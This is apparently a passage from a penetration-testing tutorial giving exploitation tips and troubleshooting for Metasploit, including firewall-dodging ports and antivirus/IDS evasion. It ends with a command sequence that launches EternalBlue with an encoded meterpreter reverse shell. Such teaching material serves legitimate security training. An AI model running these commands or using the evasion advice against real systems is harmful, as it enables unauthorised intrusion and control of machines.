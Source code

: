 Great! Now that we understand the tools and techniques, let's talk about how to use them effectively. Even with the best tools, exploitation can be tricky, so here are some hard-earned lessons from the field! 💡

## Best Practices During Exploitation 🌟

**Start Simple**: Try default credentials before complex exploits - they work more often than you'd think! 😊

**Document Everything**: Keep detailed notes of what worked and what didn't. Future you will thank present you! 📝

**Be Patient**: Exploits can fail for various reasons. Don't get discouraged - troubleshoot systematically and try different approaches. 🧘‍♂️

**Check Your Listeners**: Always ensure your listener is running before launching exploits. It's embarrassing when an exploit works but you're not listening! 🤦‍♂️

**Verify Access**: Always confirm you have the access level you expected. Sometimes you get more (or less) than anticipated. 🔍

Even with the best preparation and following all the best practices, things can still go wrong. Don't worry - this is completely normal! Exploitation often involves trial and error. Let's look at the most common issues you'll encounter and how to fix them. 🔧

## Troubleshooting Common Issues 🛠️

### Exploit Fails to Run 
- Verify the target is actually vulnerable (double-check with scanners)
- Check if the service is running (maybe it restarted?)
- Ensure network connectivity (can you ping the target?)
- Try different payload types or exploit variations

### No Shell Received 😞
- Confirm your IP is correct in LHOST (check with `ip addr` or `ifconfig`)
- Check firewall rules on both sides (are ports blocked?)
- Try different ports like 443, 8080, or 8443 (they're often allowed through firewalls)
- Use a different payload type (sometimes bind shells work when reverse don't)

### Connection Drops Immediately 📉
- The exploit worked but something killed the session (AV, IDS, or timeout)
- Try a different payload (maybe something more stealthy)
- Check for antivirus or intrusion detection systems
- Use encoding options in Metasploit to evade detection

**Example of using encoders:**
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set ENCODER x64/xor_dynamic
msf6 exploit(windows/smb/ms17_010_eternalblue) > set ITERATIONS 3
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
